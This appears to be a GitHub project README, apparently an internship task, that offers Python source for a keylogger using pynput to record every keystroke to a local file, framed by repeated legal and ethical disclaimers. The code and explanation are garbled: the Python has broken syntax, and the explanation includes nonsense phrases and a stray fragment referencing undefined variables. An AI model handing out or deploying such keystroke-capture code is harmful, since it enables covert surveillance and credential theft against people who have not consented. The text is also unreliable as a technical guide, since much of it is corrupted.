 # PRODIGY_CS_04

It is important to note that the use and development of keyloggers without a subject's permission are illegal. Keyloggers can be toxic as they enable surveillance without permission or data theft. If you really need to develop a keylogger, for instance, when engaging in cybercrime awareness or trying out security risks; always make sure that you have got the right authority and permission from all relevant parties.

That in mind, I can give you an educational example of a keylogger with Python. This code is sponge licensed: all copy of this let we be it for educational intention only and gains best assurance practices.Domains.

Keylogger Example in Python

Here is an example using the pynput library to create a simple keylogger script that writes keystrokes into a file. This script will monkey patch key presses to be saved in a 'keylog`. txt`.

#### Prerequisites

First, you will have to install the pynput library. You can install it using pip:

```bash

pip install pynput

```

#### Keylogger Code

```python

from pynput import keyboard

import logging

# Log settings configuration

logging. basicConfig(filename="keylog. txt", level=logging. Then system will print using below format DEBUG,format = "%(asctime)s: %(message)s"

def on_press(key):

try:

# Log the key pressed

logging. info(f"Key pressed: {key. char}")

except AttributeError:

# Process special keys (e.g. space, return)

logging. print(f"Special key pressed: {key}")

def on_release(key):

if key == keyboard. Key. esc:

# Stop listener

return False

# Start the keylogger

with keyboard. with Listener(on_press=on_press, on_release=on_release) as listener:

listener.join()

```
### Explanation

1. Logging Setup:

- Keylogs are written to a file, `keylog.log` with the use of Modules such as : SealLog from Logging txt`.

- `logging. Step #4: Configure basicConfig, logging messages in a timestamp to the file

2. Key Press Handling:

 Log the character of a key pressed within less than 5 secondsdef on_press(key): log_txt = str(log_name) try: logging.info(str(key.char)) forest[log_txt].append('|' +str(time.time()) + '|' 'char|') except AttributeError : pass… If it is a specific key (e.g. space, enter), get the name of the web site to claim ownership in return

The `on_release` function verifies if the key pressed is a an press of the `esc`. If it is, the keylogger stops working.

3. Listener:

- `keyboard. Listener` : To listen for key presses and releases. It is running in a blocking loop until you press 'esc'

3 Ethical and legal considerations

Permission: Never run any keylogger without the explicit permission of all end users.

Reason: Keylogger for educational purposes, proof of concept demonstrations or security testing in a controlled environment.

Principle ● Privacy — respecting privacy, and legal boundaries. Violates privacy laws by logging keystrokes Without Permission

Conclusion

Educational Purposes: We provide this command line example only to explore how keystroke logging works. Please always keep in mind the ethical implications and legalities of such tools before you actually implement them. But it is important for security and ethical programming practice to consider privacy, safety and especially legal conformity.
